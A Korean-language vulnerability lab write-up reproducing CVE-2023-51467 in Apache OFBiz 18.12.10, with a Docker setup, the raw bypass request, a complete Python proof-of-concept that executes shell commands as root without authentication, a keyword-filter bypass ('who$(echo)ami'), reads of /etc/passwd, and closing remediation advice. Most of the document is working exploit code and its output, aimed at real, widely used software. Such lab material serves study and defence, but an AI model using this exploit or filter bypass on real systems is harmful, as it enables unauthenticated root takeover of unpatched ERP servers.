








# CVE-2023-51467

**Contributors**

- [최원우(@choewonwoo1817)](https://github.com/choewonwoo1817)

<br/>

# Apache OFBiz 인증 우회를 통한 원격 코드 실행 (CVE-2023-51467)

Apache OFBiz는 자바 기반의 오픈소스 ERP 프레임워크입니다. CVE-2023-51467은 OFBiz의 인증 처리 결함으로, 로그인 화면을 거치지 않고도 인증이 필요한 화면에 접근할 수 있는 인증 우회 취약점입니다.

`requirePasswordChange=Y` 파라미터를 붙이면 아이디·비밀번호가 비어 있어도 인증 검사를 통과합니다. 이 우회를 이용해 관리자 전용 화면인 `ProgramExport`에 접근하면 `groovyProgram` 파라미터로 넘긴 Groovy 코드가 서버에서 그대로 실행됩니다. 즉 **미인증 공격자가 원격에서 임의 명령을 실행(RCE)**할 수 있습니다. 이 환경에서 OFBiz 프로세스는 root로 동작하므로 명령도 root 권한으로 실행됩니다.

이 취약점은 이전 패치(CVE-2023-49070)가 불완전해 남은 인증 우회를 다른 경로로 악용한 것으로, OFBiz 18.12.10에서 확인됩니다.

참고 자료:

- <https://nvd.nist.gov/vuln/detail/CVE-2023-51467>
- <https://github.com/apache/ofbiz-framework/commit/d8b097f6717a4004acf023dfe929e0e41ad63faa>

## 취약점 요약

- 미인증 원격 코드 실행(RCE)입니다. 인증 우회와 Groovy 표현식 주입을 엮은 것입니다.
- `requirePasswordChange=Y`로 인증 검사를 우회하고, `ProgramExport` 화면의 `groovyProgram` 파라미터로 서버에서 코드를 실행합니다.
- 영향 버전은 Apache OFBiz 18.12.10 이하이며 18.12.11에서 패치되었습니다. 이 환경은 18.12.10을 사용합니다.

## 환경 구성

```
docker compose up -d
```

`vulhub/ofbiz:18.12.10` 이미지로 OFBiz 서버 한 대를 띄웁니다. 별도 설정이나 라이선스 없이 기동되며, compose에 `platform: linux/amd64`를 지정해 Apple Silicon이든 Intel Mac이든 같은 아키텍처로 재현되도록 했습니다. 아래는 컨테이너 기동 및 상태 확인 결과입니다. 각 단계의 스크린샷은 macOS와 Windows(PowerShell) 순서로 실었습니다.





OFBiz(자바)는 컨테이너가 올라온 뒤에도 초기화에 1~2분 걸립니다. 아래 명령이 `302`를 반환하면 준비된 것이며, 그때 PoC를 실행하면 됩니다.

```
curl -sk -o /dev/null -w '%{http_code}\n' https://localhost:8443/accounting
```

> Windows(PowerShell)에서는 `python3` 대신 `python`, `curl` 대신 `curl.exe`를 사용합니다.

## 취약 조건

- OFBiz의 로그인 검사 로직이 `requirePasswordChange=Y`가 있으면 빈 자격증명을 그대로 통과시킵니다.
- 인증을 우회하면 `ProgramExport` 화면에 접근할 수 있고, 이 화면은 입력받은 Groovy 코드를 실행합니다.
- 두 조건을 합치면 미인증 상태에서 Groovy 코드 실행 → OS 명령 실행이 됩니다. HTTPS(8443)만 열려 있으면 원격에서 바로 악용됩니다.

## 재현 절차

일반적인 접근으로는 인증이 필요하지만, 아래 요청은 인증 없이 명령을 실행합니다.

```
python3 poc.py https://localhost:8443 id
```

원본 요청은 다음과 같습니다. `requirePasswordChange=Y`로 인증을 우회하고 `groovyProgram`에 Groovy 코드를 실어 보냅니다.

```
POST /webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y HTTP/1.1
Host: localhost:8443
Content-Type: application/x-www-form-urlencoded

groovyProgram=throw new Exception(['/bin/sh','-c','id'].execute().text);
```





## PoC 코드

`poc.py` 전체입니다. 인증 우회 요청을 보내고, 실행한 명령의 출력을 응답의 예외 메시지에서 파싱합니다. 파이썬 표준 라이브러리만 사용하므로 별도 설치가 필요 없습니다.

```python
#!/usr/bin/env python3
# CVE-2023-51467: Apache OFBiz 인증 우회 -> Groovy 표현식 주입 RCE
#
# ProgramExport 화면은 requirePasswordChange=Y 파라미터로 인증 검사를 우회할 수 있습니다.
# 우회 후 groovyProgram 파라미터에 넣은 Groovy 코드가 서버에서 그대로 실행됩니다.
# 'id'.execute().text 로 명령 결과를 얻어 예외로 던지면, 그 결과가 응답 본문에 실려 돌아옵니다.

import html
import re
import ssl
import sys
import urllib.parse
import urllib.request

target = sys.argv[1] if len(sys.argv) > 1 else "https://localhost:8443"
cmd = sys.argv[2] if len(sys.argv) > 2 else "id"

url = target.rstrip("/") + "/webtools/control/ProgramExport/?USERNAME=&PASSWORD=&requirePasswordChange=Y"
payload = "groovyProgram=" + urllib.parse.quote("throw new Exception(['/bin/sh','-c','%s'].execute().text);" % cmd)

# 취약 환경은 자체 서명 인증서(HTTPS)라 검증을 끕니다.
ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

req = urllib.request.Request(
    url, data=payload.encode(),
    headers={"Content-Type": "application/x-www-form-urlencoded"},
)
try:
    body = urllib.request.urlopen(req, context=ctx, timeout=20).read().decode("utf-8", "replace")
except urllib.error.HTTPError as e:
    body = e.read().decode("utf-8", "replace")

# OFBiz는 일부 groovy 키워드(whoami, hostname 등)를 차단하는 필터가 있습니다.
# 필터에 걸리면 명령이 실행되지 않습니다. (필터 우회 방법은 README 실행 결과에서 다룹니다.)
if "Not executed for security reason" in body:
    print("[!] blocked by keyword filter (bypass needed): %s" % cmd)
    sys.exit(2)

# 명령 출력은 던져진 예외 메시지(<p>java.lang.Exception: ...</p>)에 담겨 옵니다.
m = re.search(r"Exception:\s*(.*?)</p>", body, re.S)

if m and m.group(1).strip():
    # 응답이 HTML이라 따옴표 등이 엔티티(&quot; 등)로 올 수 있어 디코드합니다.
    print("[+] unauthenticated RCE. command: %s" % cmd)
    print(html.unescape(m.group(1).strip()))
    sys.exit(0)

print("[-] failed: no command output")
sys.exit(1)
```

명령 인자만 바꾸면 다른 명령도 같은 방식으로 실행합니다.

```
python3 poc.py https://localhost:8443 "cat /etc/passwd | head -5"
```





## 실행 결과

- `id` → `uid=0(root) gid=0(root) groups=0(root)`. 미인증 요청 한 번으로 root 권한 명령 실행이 확인됩니다.
- `cat /etc/passwd`, `ls`, `echo` 등은 그대로 실행됩니다.
- 단, OFBiz 18.12.10에는 groovy 키워드 필터가 있어 `whoami`·`hostname` 같은 일부 명령은 `Not executed for security reason`으로 차단됩니다(블랙리스트 토큰 기반이라 `uname`은 통과하지만 `uname -a`는 차단되는 식입니다). 하지만 이 필터는 명령을 셸에서 조립해 쉽게 우회됩니다. 예를 들어 `who$(echo)ami`처럼 키워드를 쪼개면 필터를 통과하고 `root`가 반환됩니다. 즉 필터가 있어도 실제 영향은 임의 명령 실행(RCE)입니다.
- 네트워크 요청과 응답으로 완결되므로 실행할 때마다 동일한 결과가 재현됩니다.

```
python3 poc.py https://localhost:8443 whoami          # [!] blocked by keyword filter
python3 poc.py https://localhost:8443 'who$(echo)ami' # [+] root  (필터 우회)
```





## 대응 방안

- Apache OFBiz를 18.12.11 이상으로 업그레이드합니다. 이 취약점은 인증 로직 자체의 결함이므로 근본 해결은 패치뿐입니다.
- groovy 키워드 필터 같은 블랙리스트 방식은 위에서 보인 것처럼 쉽게 우회되므로 방어책으로 신뢰해서는 안 됩니다.
- OFBiz 관리 화면(`/webtools`)을 외부에 노출하지 않고 접근 통제를 둡니다.
- 컨테이너/서비스를 root가 아닌 최소 권한 계정으로 실행해 침해 시 영향 범위를 줄입니다.
